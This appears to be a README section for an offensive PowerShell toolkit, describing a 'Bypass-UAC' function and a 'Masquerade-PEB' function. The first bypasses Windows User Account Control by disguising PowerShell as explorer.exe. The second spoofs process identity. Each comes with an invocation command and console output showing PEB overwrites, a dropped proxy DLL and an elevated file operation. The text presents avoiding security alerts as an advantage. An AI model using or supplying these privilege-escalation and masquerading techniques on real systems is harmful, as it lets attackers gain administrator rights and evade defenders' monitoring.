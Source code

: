 ### Bypass-UAC

Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into “explorer.exe”. This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL’s makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell’s PEB to give it the appearance of “explorer.exe”. This provides the same effect because COM objects exclusively rely on Windows’s Process Status API (PSAPI) which reads the process PEB.

```
C:\PS> Bypass-UAC -Method ucmDismMethod

[!] Impersonating explorer.exe!
[+] PebBaseAddress: 0x000007F73E93F000
[!] RtlEnterCriticalSection --> &Peb->FastPebLock
[>] Overwriting &Peb->ProcessParameters.ImagePathName: 0x000000569B5F1780
[>] Overwriting &Peb->ProcessParameters.CommandLine: 0x000000569B5F1790
[?] Traversing &Peb->Ldr->InLoadOrderModuleList doubly linked list
[>] Overwriting _LDR_DATA_TABLE_ENTRY.FullDllName: 0x000000569B5F2208
[>] Overwriting _LDR_DATA_TABLE_ENTRY.BaseDllName: 0x000000569B5F2218
[!] RtlLeaveCriticalSection --> &Peb->FastPebLock

[>] Dropping proxy dll..
[+] 64-bit Yamabiko: C:\Users\b33f\AppData\Local\Temp\yam1730961377.tmp
[>] Creating XML trigger: C:\Users\b33f\AppData\Local\Temp\pac500602004.xml
[>] Performing elevated IFileOperation::MoveItem operation..

[?] Executing PkgMgr..
[!] UAC artifact: C:\Windows\System32\dismcore.dll
[!] UAC artifact: C:\Users\b33f\AppData\Local\Temp\pac500602004.xml
```

### Masquerade-PEB

Masquerade-PEB uses NtQueryInformationProcess to get a handle to powershell's PEB. From there it replaces a number of UNICODE_STRING structs in memory to give powershell the appearance of a different process. Specifically, the function will overwrite powershell's "ImagePathName" & "CommandLine" in _RTL_USER_PROCESS_PARAMETERS and the "FullDllName" & "BaseDllName" in the _LDR_DATA_TABLE_ENTRY linked list.
    
This can be useful as it would fool any Windows work-flows which rely solely on the Process Status API to check process identity.

```
C:\PS> Masquerade-PEB -BinPath C:\Windows\System32\notepad.exe

[?] PID 2756
[+] PebBaseAddress: 0x7FFD3000
[!] RtlEnterCriticalSection --> &Peb->FastPebLock
[>] Overwriting &Peb->ProcessParameters.ImagePathName: 0x002F11F8
[>] Overwriting &Peb->ProcessParameters.CommandLine: 0x002F1200
[?] Traversing &Peb->Ldr->InLoadOrderModuleList doubly linked list
[>] Overwriting _LDR_DATA_TABLE_ENTRY.FullDllName: 0x002F1B74
[>] Overwriting _LDR_DATA_TABLE_ENTRY.BaseDllName: 0x002F1B7C
[!] RtlLeaveCriticalSection --> &Peb->FastPebLock
```
